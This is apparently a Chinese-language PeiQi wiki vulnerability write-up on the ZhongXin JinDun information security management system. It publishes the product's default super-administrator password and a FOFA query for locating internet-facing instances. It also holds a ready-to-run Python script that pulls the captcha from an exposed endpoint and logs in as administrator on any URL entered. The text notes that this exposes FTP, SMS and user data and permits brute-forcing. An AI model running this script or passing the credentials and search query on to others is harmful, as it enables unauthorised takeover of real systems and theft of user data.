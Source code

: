 # 中新金盾信息安全管理系统-默认超级管理员密码漏洞

## 漏洞描述

中新网络信息安全股份有限公司中新金盾信息安全管理系统存在默认弱口令，登录身份为超级管理员 目前大部分使用的都受到了影响

## 漏洞影响

> [!NOTE]
>
> 中新金盾信息安全管理系统

## FOFA

> [!NOTE]
>
> title="中新金盾信息安全管理系统"

## 漏洞复现

看到产品手册

![](中新金盾信息安全管理系统-默认超级管理员密码漏洞.assets/16273630782174878.jpg)

系统默认管理员账号密码：

**admin/zxsoft1234!@#$**

![](中新金盾信息安全管理系统-默认超级管理员密码漏洞.assets/1627363078699913.jpg)

登录页面如上，使用账号密码登录

其中泄露了大部分信息，其中包括 SMMS与FTP 及用户信息

![](中新金盾信息安全管理系统-默认超级管理员密码漏洞.assets/16273630793118038.jpg)

![](中新金盾信息安全管理系统-默认超级管理员密码漏洞.assets/1627363079672082.jpg)

## 漏洞利用POC

> [!NOTE]
>
> 请求  ?q=common/getcode  时
>
> 返回了验证码，通过验证码可爆破账号密码等操作

![](中新金盾信息安全管理系统-默认超级管理员密码漏洞.assets/1627363079885136.jpg)

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 中新金盾信息安全管理系统-默认超级管理员密码漏洞                      \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "?q=common/getcode"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在获取验证码 {}?q=common/getcode ..... \033[0m".format(target_url))
        response_data = response.headers['Set-Cookie']
        check_code = re.findall(r'check_code=(.*?);', response_data)[0]
        PHPSESSID = re.findall(r'PHPSESSID=(.*?);', response_data)[0]
        print("\033[36m[o] 验证码:{}\n[o] PHPSESSID:{} \033[0m".format(check_code, PHPSESSID))
        POC_2(target_url, check_code, PHPSESSID)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, check_code, PHPSESSID):
    vuln_url = target_url + "?q=common/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":"PHPSESSID={}; check_code={}".format(PHPSESSID, check_code),
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
    }
    data = "name=admin&password=zxsoft1234!%40%23%24&checkcode={}&doLoginSubmit=1".format(check_code)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "1" in response.text and response.status_code == 200:
            print("\033[36m[o] 目标 {} 存在默认管理员弱口令 admin / zxsoft1234!@#$ \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在默认管理员弱口令     \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](中新金盾信息安全管理系统-默认超级管理员密码漏洞.assets/1627363080446261.jpg)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> ZhongXinJingDun_Default_administrator_password

![](中新金盾信息安全管理系统-默认超级管理员密码漏洞.assets/1627363080822081.jpg)
